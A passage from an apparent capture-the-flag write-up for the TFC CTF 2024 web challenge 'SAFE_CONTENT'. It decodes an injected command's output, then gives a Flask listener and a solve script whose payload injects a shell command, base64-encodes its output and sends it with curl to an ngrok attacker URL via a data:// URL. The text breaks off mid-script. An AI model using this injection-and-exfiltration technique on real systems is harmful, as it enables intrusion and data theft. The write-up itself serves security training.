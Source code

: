 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TCTF-CTF-2024/images/Pasted%20image%2020240805153252.png)

Let's decode the base64 encoded result!

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|15:31:43(HKT)]
└> echo 'dWlkPTEwMDAoc2l1bmFtKSBnaWQ9MTAwMChuYW0pIGdyb3Vwcz0xMDAwKG5hbSksNChhZG0pLDIwKGRpYWxvdXQpLDI0KGNkcm9tKSwyNShmbG9wcHkpLDI3KHN1ZG8pLDI5KGF1ZGlvKSwzMChkaXApLDQ0KHZpZGVvKSw0NihwbHVnZGV2KSwxMDkobmV0ZGV2KSwxMTkod2lyZXNoYXJrKSwxMjIoYmx1ZXRvb3RoKSwxMzQoc2Nhbm5lciksMTQyKGthYm94ZXIpLDE0Myhkb2NrZXIpCg==' | base64 -d 
uid=1000(siunam) gid=1000(nam) groups=1000(nam),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),119(wireshark),122(bluetooth),134(scanner),142(kaboxer),143(docker)
```

Boom! We got it!

## Exploitation

Armed with the above information, we can write a solve script to get the flag!

`app.py`, A Python Flask web application to catch incoming POST request:

```python
#!/usr/bin/env python3
from flask import Flask, request
from base64 import b64decode

app = Flask(__name__)

@app.route('/', methods=['POST'])
def index():
    formData = request.form

    result = str()
    for data in formData:
        paddedBase64EncodedResult = data + '=' * (-len(data) % 4)
        result += b64decode(paddedBase64EncodedResult).decode().strip()

    print(f'[+] We successfully received a POST body data:\n{result}')
    return ''

if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=True)
```

`solve.py`, A Python script to send our payload to the remote challenge instance:

```python
#!/usr/bin/env python3
import requests
from base64 import b64encode

def solve(attackerUrl, challengeBaseUrl, command):
    payload = f'"" && {command} | base64 | curl -d @- {attackerUrl} #'
    base64EncodedPayload = b64encode(payload.encode()).decode()
    url = f'data://text@localhost/plain,{base64EncodedPayload}'
    print(f'[*] Sending payload: {payload}')
    print(f'[*] Final URL: {url}')

    requests.get(f'{challengeBaseUrl}/', params={ 'url': url })

if __name__ == '__main__':
    attackerUrl = 'https://2322-{REDACTED}.ngrok-free.app/'
    challengeBaseUrl = 'http://challs.tfcctf.com:31936'

    try:
```